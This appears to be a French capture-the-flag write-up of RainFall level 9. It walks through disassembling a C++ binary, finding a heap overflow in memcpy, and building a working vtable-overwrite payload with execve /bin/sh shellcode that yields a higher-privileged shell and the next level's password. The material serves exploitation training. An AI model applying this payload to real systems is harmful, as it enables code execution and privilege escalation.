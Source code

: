 # **Level 9**

Pour le `level9`, on explore le code avec `gdb`

```
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.
(gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   %ebp
   0x0804870f <+1>:     mov    %esp,%ebp
   0x08048711 <+3>:     sub    $0x18,%esp
   0x08048714 <+6>:     mov    0xc(%ebp),%eax
   0x08048717 <+9>:     mov    %eax,(%esp)
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    0x8(%ebp),%edx
   0x08048722 <+20>:    add    $0x4,%edx
   0x08048725 <+23>:    mov    %eax,0x8(%esp)
   0x08048729 <+27>:    mov    0xc(%ebp),%eax
   0x0804872c <+30>:    mov    %eax,0x4(%esp)
   0x08048730 <+34>:    mov    %edx,(%esp)
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:    leave
   0x08048739 <+43>:    ret
End of assembler dump.
```
Et on decompile le code

```
void main(int param_1,int param_2)
{
  N *this;
  undefined4 *this_00;
  
  if (param_1 < 2) {
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  this = (N *)operator_new(0x6c);
  N::N(this,5);
  this_00 = (undefined4 *)operator_new(0x6c);
  N::N((N *)this_00,6);
  N::setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}

void __thiscall N::setAnnotation(N *this,char *param_1)
{
  size_t __n;
  
  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}
```

On comprend rapidement que le code prend le premier input utilisateur, rempli une structure avec un `memcpy` (fonction qui permet l'overflow)
En regardant le code assembleur, on voit un call a `edx`, en remontant un peu, on peut facilement comprendre ce qui ce passe

```
   0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:   mov    DWORD PTR [esp],eax
   0x08048693 <+159>:   call   edx
```

Donc le code recupere la valeur de `esp+16` puis la `dereference` deux fois

Commençons par trouver la position initial avec l'overflow

```
(gdb) run $(python -c "print'a'*108+'ABCDEFGHIJKLMNOPQRSTUVWXYZ'")
Starting program: /home/user/level9/level9 $(python -c "print'a'*108+'ABCDEFGHIJKLMNOPQRSTUVWXYZ'")

Breakpoint 1, 0x0804867c in main ()
(gdb) si
0x08048680 in main ()
(gdb) x $eax
0x804a078:      0x44434241
```

> Comme `0x44434241` correspond a `ABCD` on sait que l'overflow ce fais juste apres le buffer

Maintenant il n'y a plus qu'a dereferencer l'addresse deux fois et mettre notre `shellcode` prefere pour que notre payload soit complete

On regarde dans la heap ou se trouve notre string

```
(gdb) x/64wx 0x804a078 - 112
0x804a008:      0x08048848      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a058:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a068:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a078:      0x45444342      0x00000000      0x00000000      0x00000000
```
> On voit qu'elle demarre a `0x0804a00c`

On ecrit notre payload

```
level9@RainFall:~$ ./level9 $(python -c "print'\x10\xa0\x04\x08'+'\x14\xa0\x04\x08'+'\x90'*55+'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'+'\x0c\xa0\x04\x08'")
$ id
uid=2009(level9) gid=2009(level9) euid=2010(bonus0) egid=100(users) groups=2010(bonus0),100(users),2009(level9)
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

> ### NEXT : [Bonus0](/bonus0/resources/README.md)
